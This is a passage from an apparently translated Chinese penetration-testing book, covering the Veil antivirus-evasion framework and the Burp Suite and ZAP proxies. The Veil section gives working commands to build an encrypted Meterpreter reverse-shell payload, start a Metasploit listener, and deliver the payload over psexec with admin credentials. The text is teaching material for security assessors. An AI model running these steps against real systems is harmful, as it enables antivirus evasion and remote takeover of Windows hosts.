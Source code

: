 这个防病毒软件逃避套件有多种方法来生成负载。这些负载类型利用了有经验的评估者和恶意行为者多年来手动使用的方法。这包括使用**高级加密标准**（**AES**）加密负载，对它们进行编码，并随机化变量名称。然后可以将这些细节包装在 PowerShell 或 Python 脚本中，以使生活更加轻松。

Veil 可以通过**命令行界面**（**CLI**）或类似于 Metasploit 的控制台启动。例如，以下命令显示了创建一个 PyInjector 利用的 CLI 的用法，它拨打回监听主机的 80 端口；如果你想测试这个，确保你用你的实际 IP 替换"yourIP"。

```py
./Veil.py -l python -p AESVirtualAlloc -o \
python_payload --msfpayload \
windows/Meterpreter/reverse_tcp --msfoptions \
LHOST=yourIP LPORT=80

```

现在，继续启动你的 Metasploit 控制台，并使用以下命令启动监听器。这将启动控制台；确保等待它启动。此外，它在你的主机上设置了一个监听器，所以确保你用你的实际 IP 地址替换"yourIP"。监听器将在后台运行，等待返回的会话。

```py
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 80
set lhost yourIP
exploit -j

```

将负载移动到目标 Windows 系统并运行负载。只要没有配置问题，监听主机的端口 80 上没有其他服务运行，并且没有阻止被利用主机和监听器之间连接到端口 80 的任何东西，你应该会在你的 Kali 主机上看到一个会话生成。

那么，如果你有这些自定义利用，你如何将它们与真正的 Metasploit 利用结合使用呢？简单，只需调整变量指向它们。以下是在 Metasploit 中使用`psexec`模块的示例。确保将 targetIP 更改为目标 Windows 系统的 IP。设置系统上的本地管理员的用户名和本地管理员的密码。最后，将自定义`EXE`路径设置为你的`python_paload.exe`，你应该会看到在你的监听器上生成一个 shell。

```py
use exploit/windows/smb/psexec
set rhost targetIP
set SMBUser username
set password password
set EXE::Custom /path/to/your/python_payload.exe
exploit -j

```

## Burp Suite

Burp Suite 是透明代理或用于直接交互和操纵发送到浏览器和从浏览器发送的网络流的工具时的标准。这个工具有一个专业版，增加了一个不错的网络漏洞扫描器。在使用它时应该小心，因为它可能导致多次提交论坛、电子邮件和交互。

其 Spider 工具也是如此，它与范围内的 Web 应用程序交互，并将它们映射到类似于 Google 和 Bing 的 Web 爬虫。确保在使用这些工具时，最初禁用自动提交和登录，直到你更好地了解这些应用程序。更多关于 Burp 和类似的 Web 工具将在第六章中介绍，*使用 Python 评估 Web 应用程序*。其他类似的工具包括**Zed Attack Proxy**（**ZAP**），它现在还包含了名为 DirBuster 的未链接文件夹和文件研究工具。

## Hydra
